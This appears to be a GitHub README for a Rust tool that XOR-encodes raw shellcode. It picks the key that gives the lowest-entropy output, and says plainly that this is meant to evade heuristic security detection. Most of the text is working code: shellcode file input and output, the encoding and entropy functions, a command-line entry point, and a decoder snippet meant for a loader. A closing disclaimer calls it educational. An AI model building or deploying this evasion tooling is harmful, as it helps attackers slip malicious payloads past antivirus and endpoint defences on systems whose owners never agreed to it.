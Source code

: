 # Smart XOR Encoder

## Overview
`smart_xor_encoder` is a **malware development-style XOR shellcode encoder** that selects an optimal XOR key to minimize entropy, making the encoded shellcode less detectable by heuristic-based security mechanisms.

## Features
- **Random XOR key selection** with entropy evaluation.
- **Minimizes high-entropy output** to evade detection.
- **Reads raw shellcode from a file** and outputs an encoded version.
- **Provides the XOR key** for decoding.

## Prerequisites
- **Rust toolchain** installed
- **Cargo package manager**

## Installation
Clone the repository:
```sh
git clone https://github.com/yourusername/smart_xor_encoder.git
cd smart_xor_encoder
```

Build the project:
```sh
cargo build --release
```

## Usage
Run the encoder on a raw shellcode file:
```sh
cargo run --release -- <input_shellcode.bin>
```

Example:
```sh
cargo run --release -- shellcode.bin
```

This will generate an encoded shellcode file named **`encoded_shellcode.bin`** and output the **XOR key** used.

## Code Breakdown
### **1. Reading and Writing Shellcode**
```rust
fn read_shellcode(file_path: &str) -> Vec<u8> {
    let mut file = File::open(file_path).expect("Failed to open shellcode file");
    let mut buffer = Vec::new();
    file.read_to_end(&mut buffer).expect("Failed to read shellcode");
    buffer
}
```
- Reads raw shellcode into a `Vec<u8>`.

```rust
fn write_encoded_shellcode(file_path: &str, data: &[u8]) {
    let mut file = OpenOptions::new()
        .create(true)
        .write(true)
        .truncate(true)
        .open(file_path)
        .expect("Failed to create encoded shellcode file");

    file.write_all(data).expect("Failed to write encoded shellcode");
}
```
- Writes the encoded shellcode to a file.

### **2. Smart XOR Encoding**
```rust
fn smart_xor_encode(shellcode: &[u8]) -> (Vec<u8>, u8) {
    let mut rng = rand::thread_rng();
    let mut best_key = 0;
    let mut best_encoded = Vec::new();
    let mut min_entropy = f64::MAX;

    for _ in 0..256 {
        let key = rng.gen_range(1..=255);
        let encoded: Vec<u8> = shellcode.iter().map(|&b| b ^ key).collect();
        let entropy = calculate_entropy(&encoded);

        if entropy < min_entropy {
            min_entropy = entropy;
            best_key = key;
            best_encoded = encoded;
        }
    }

    (best_encoded, best_key)
}
```
- Iterates over **256 possible XOR keys**, choosing the one that results in **the lowest entropy**.
- Reduces randomness to **avoid heuristic detection**.

### **3. Calculating Entropy**
```rust
fn calculate_entropy(data: &[u8]) -> f64 {
    let mut freq = [0u32; 256];

    for &byte in data {
        freq[byte as usize] += 1;
    }

    let total = data.len() as f64;
    freq.iter()
        .filter(|&&f| f > 0)
        .map(|&f| {
            let p = f as f64 / total;
            -p * p.log2()
        })
        .sum()
}
```
- Calculates **Shannon entropy** of the encoded shellcode.
- Used to determine **how random** the output appears.

### **4. Running the Encoder**
```rust
fn main() {
    let args: Vec<String> = env::args().collect();
    if args.len() < 2 {
        eprintln!("❌ Usage: {} <input_shellcode.bin>", args[0]);
        return;
    }

    let input_file = &args[1];
    let output_file = "encoded_shellcode.bin";

    let shellcode = read_shellcode(input_file);
    let (encoded_shellcode, xor_key) = smart_xor_encode(&shellcode);
    write_encoded_shellcode(output_file, &encoded_shellcode);

    println!(
        "✅ Smart XOR Encoding Complete!\n🔑 XOR Key: {}\n📁 Saved as: {}",
        xor_key, output_file
    );
}
```
- Reads shellcode, encodes it using **smart XOR**, and saves the result.
- Prints the **XOR key** needed for decryption.

## Decoding the Shellcode
The decoder is a simple XOR operation using the **key displayed after encoding**:
```rust
fn xor_decode(buf: &[u8], key: u8) -> Vec<u8> {
    buf.iter().map(|x| x ^ key).collect()
}
```

To decrypt the encoded shellcode in your loader:
```rust
let decoded_shellcode = xor_decode(&encoded_shellcode, xor_key);
```

## Disclaimer
This project is for **educational and research purposes only**. Unauthorized use of this tool is strictly prohibited.

## License
[MIT License](LICENSE)

